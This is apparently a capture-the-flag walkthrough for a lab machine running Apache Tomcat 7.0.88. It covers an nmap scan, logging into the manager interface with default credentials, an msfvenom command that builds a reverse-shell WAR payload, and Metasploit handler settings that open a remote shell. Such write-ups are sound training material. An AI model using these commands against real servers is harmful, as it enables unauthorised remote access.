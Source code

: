 # Enumeration

The first step is to run an nmap scan to gewt an idea of what services are running on the machine.

```
nmap -sV -sC -Pn --reason --open 10.10.10.95
Starting Nmap 7.70 ( https://nmap.org )
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 4.05% done; ETC: 12:48 (0:00:47 remaining)
Nmap scan report for 10.10.10.95
Host is up, received user-set (0.046s latency).
Not shown: 999 filtered ports
Reason: 999 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

There is only one port open in the top 100, port 8080. The nmap script results (from the -sC flag) reveal that this is running Apache Tomcat 7.0.88.

# Exploitation

A bit of internet research will reveal there is a web interface under /manager/html. Further internet research will uncover the default credentials for Apache Tomcat.

We now have access to the web interface. This administative interface has file upload functionality which we can abuse to gain a shell. Under the deploy section, we have the ability to upload a .war file. A suitable payload can be generated using msfvenom:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Your IP] LPORT=4444 -f war > ~/Desktop/reverse.war`

We need to create a listener using Metasploit to catch the reverse shell. Within the Metasplot Framework set the following options:

```
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST [Your IP]
set LPORT 4444 (if it's not already set)
exploit
```

Now upload and deploy the .war file and you will get a shell. Both of the flags (user.txt and root.txt) will be in the Desktop folder so no privesc is required!
